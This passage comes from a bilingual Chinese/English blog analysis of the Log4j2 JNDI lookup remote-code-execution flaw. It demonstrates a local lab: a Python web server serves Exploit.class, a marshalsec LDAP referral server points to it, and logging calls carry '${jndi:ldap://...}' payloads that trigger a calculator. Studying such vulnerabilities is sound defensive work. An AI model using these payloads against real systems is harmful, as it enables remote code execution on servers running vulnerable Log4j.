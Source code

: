 最终在Log4j执行下载下来的 `Exploit.class` ,然后加载到JVM中,最后运行,就触发了程序当中的代码逻辑(我这里是计算器).

[Finally, the downloaded `Exploit.class` is executed in Log4j, then loadad into the JVM, and finally run, which trigger the code logic in the program (I am a calculator here) . ]:#

## 处理流程

[## Process flow]:#

<center>
<img src="../assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-9.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>

两种方式都行(有包名和无包名)

[Either way (with and without package name) ]:#

```
#OKay1(有包)
#问题代码
#把com/github/test/Exploit.class文件全路径复制到需要下载的目录下(必须是http web服务器的根目录)

#准备工作
python -m SimpleHTTPServer 8888 #python3 #必须和Exploit.class在同级根目录
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#com.github.test.Exploit"

#输出格式
LOG.error("${jndi:ldap://127.0.0.1:1389/#com}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#com.github.test.Exploit}");
LOG.error("${jndi:ldap://127.0.0.1:1389/#co}");
LOG.error("xxx:{}","${jndi:ldap://127.0.0.1:1389/#co}");
```
